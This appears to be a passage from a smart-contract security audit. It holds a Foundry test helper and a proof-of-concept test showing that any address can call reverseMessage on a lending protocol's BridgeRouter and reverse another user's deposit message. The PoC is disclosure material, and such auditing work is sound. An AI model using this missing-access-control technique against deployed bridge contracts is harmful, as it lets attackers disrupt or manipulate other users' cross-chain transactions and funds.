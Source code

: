 ```solidity

    function _getMsgId() internal view returns (bytes32) {
        uint256 s = adapter.sequence();
        return keccak256(abi.encodePacked(PREFIX, s));
    }

    function _checkSeccuss(bytes32 msgId) internal {
        vm.expectEmit();
        emit BridgeRouter.MessageSucceeded(1, msgId);
    }

    function _checkMessageSeccuss() internal {
        // vm.exepctEmit(true,false,false);
        // emit BridgeRouter.MessageSuccess(0,"");
    }
}

```

Second File (includes the poc): `test/pocs/forktest.t.sol`

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.23;

import "./base_test.sol";

event MessageSucceeded(uint16 adapterId, bytes32 indexed messageId);

event MessageFailed(uint16 adapterId, bytes32 indexed messageId, bytes reason);

contract Pocs is baseTest {
    ////////////////////////////////////////////////////////////////////////////////////////////

    // @remind : poc of non access controle on reverse messages :
    function test_noAccessControlOnReverse() public {
        // get bob balance before action :
        uint256 bobBalanceBefore = IERC20(USDC_TOKEN).balanceOf(bob);
        bytes32 loanId = aliceLoanIds[0];
        bytes32 msgId = _getMsgId();
        _approveUsdc(bob, address(spokeUsdc), 1000e6);
        _createLoanAndDeposit(bobAccountId, bob, loanId, STABELE_LOAN_TYPE_ID, 1000e6, spokeUsdc);
        BridgeRouter router = BridgeRouter(hub.getBridgeRouter());
        assertTrue(router.seenMessages(1, msgId));
        uint256 bobBalanceAfter = IERC20(USDC_TOKEN).balanceOf(bob);
        assertTrue(bobBalanceBefore - bobBalanceAfter == 1000e6);
        // reverse the tx by a random address :
        vm.prank(address(32423));
        router.reverseMessage(1, msgId, "");
        assertTrue(bobBalanceBefore == IERC20(USDC_TOKEN).balanceOf(bob));
    }
}

```

